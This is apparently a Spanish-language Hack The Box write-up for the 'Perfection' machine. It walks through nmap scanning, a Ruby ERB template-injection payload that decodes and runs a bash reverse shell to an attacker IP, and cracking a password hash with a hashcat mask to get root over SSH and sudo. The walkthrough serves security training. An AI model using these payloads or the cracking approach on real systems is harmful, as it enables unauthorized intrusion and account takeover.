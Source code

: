 ```yaml
---
title: Perfection
description: Perfection es una máquina Linux de dificultad fácil que cuenta con una aplicación web con la funcionalidad de calcular las puntuaciones de los estudiantes. Esta aplicación es vulnerable a la Server-Side Template Injection (SSTI) a través de un bypass de filtro regex. Se puede obtener un acceso inicial explotando la vulnerabilidad SSTI. Al enumerar los usuarios se revela que son parte del grupo sudo. Una mayor enumeración descubre una base de datos con hashes de contraseñas, y el correo del usuario revela un posible formato de contraseña. Usando un ataque de máscara en el hash, se obtiene la contraseña del usuario, la cual se utiliza para obtener acceso root.
date: 2024-05-22
toc: true
pin: false
image:
 path: /assets/img/htb-writeup-perfection/perfection_logo.png
categories:
  - Hack_The_Box
  - Machines
tags:
  - linux
  - hack_the_box
  - ssti
  - data_leaks
  - password_attacks
  - ssh
  - http
  - tcp
  - information_gathering
  - web_analysis
  - vulnerability_exploitation
  - privilege_escalation

---
```

## Information Gathering

```terminal
/home/kali/Documents/htb/machines/perfection:-$ sudo nmap -sC -sV 10.10.11.253 
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 80:e4:79:e8:59:28:df:95:2d:ad:57:4a:46:04:ea:70 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMz41H9QQUPCXN7lJsU+fbjZ/vR4Ho/eacq8LnS89xLx4vsJvjUJCcZgMYAmhHLXIGKnVv16ipqPaDom5cK9tig=
|   256 e9:ea:0c:1d:86:13:ed:95:a9:d0:0b:c8:22:e4:cf:e9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBqNwnyqGqYHNSIjQnv7hRU0UC9Q4oB4g9Pfzuj2qcG4
80/tcp open  http    syn-ack ttl 63 nginx
| http-methods:
|_  Supported Methods: GET HEAD
|_http-title: Weighted Grade Calculator
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

---
## Web Analysis

![](/assets/img/htb-writeup-perfection/perfection1.png)
![](/assets/img/htb-writeup-perfection/perfection2.png)
![](/assets/img/htb-writeup-perfection/perfection3.png)
![](/assets/img/htb-writeup-perfection/perfection4.png)

## Vulnerability Exploitation

Vulnerable a Server Side Template Injection.

<https://hacktricks.boitatech.com.br/pentesting-web/ssti-server-side-template-injection##erb-ruby>

![](/assets/img/htb-writeup-perfection/perfection5.png)
![](/assets/img/htb-writeup-perfection/perfection6.png)
![](/assets/img/htb-writeup-perfection/perfection7.png)

Creo el payload en base64.

```terminal
-$ echo 'bash -c "bash -i >& /dev/tcp/10.10.16.65/4444 0>&1"' > payload.sh

-$ cat payload.sh | base64 | xclip -sel clip
YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi42NS80NDQ0IDA+JjEiCg==
```
El payload quedaria de la siguiente manera:

```
%0A<%25%3d+system("echo+'YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi42NS80NDQ0IDA+JjEiCg=='+|base64+-d+|bash")+%25>
```

```terminal
-$ nc -nlvp 4444
	lisening on [any] 4444 ...
```

Luego de ponerme en escucha con Netcat, envio la peticion 'POST'.

![](/assets/img/htb-writeup-perfection/perfection8.png)

```terminal
	...connect to [10.10.16.65] from (UNKNOWN) [10.10.11.253] 35964

$ python3 -c "import pty;pty.spawn('/bin/bash')"

susan@perfection:~$ cat user.txt
```

---
## Privilege Escalation

Enumerando el sistema, encuentro dos archivos importantes: 'pupilpath_credentials.db', que contiene un hash que parece corresponder a una contraseña, y un correo con instrucciones para establecer el formato de una nueva contraseña.

![](/assets/img/htb-writeup-perfection/perfection10.png)
![](/assets/img/htb-writeup-perfection/perfection11.png)

Con esta información, puedo reconstruir gran parte de la contraseña:

```text
{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1.000.000.000}
   susan   _       nasus         _                    ?????????
```

Solo me restaría encontrar el número entre 1 y 1.000.000.000, lo cual es fácilmente descifrable conociendo el hash.

```terminal
/home/kali/Documents/htb/machines/perfection:-$ echo 'abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f' > hash

/home/kali/Documents/htb/machines/perfection:-$ hashcat -m 1400 -a hash.txt susan_nasus_?d?d?d?d?d?d?d?d?d > password
abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f:susan_nasus_413759210
```
```terminal
/home/kali/Documents/htb/machines/perfection:-$ ssh susan@10.10.11.253
susan@10.10.11.253's password: susan_nasus_413759210 

susan@perfection:~$ sudo su
sudo password for susan: susan_nasus_413759210 

root@perfection:/home/susan## cat /root/root.txt
```

> <a href="https://www.hackthebox.com/achievement/machine/1521382/590" target="_blank">Perfection Machine from Hack The Box has been Pwned</a>
{: .prompt-tip }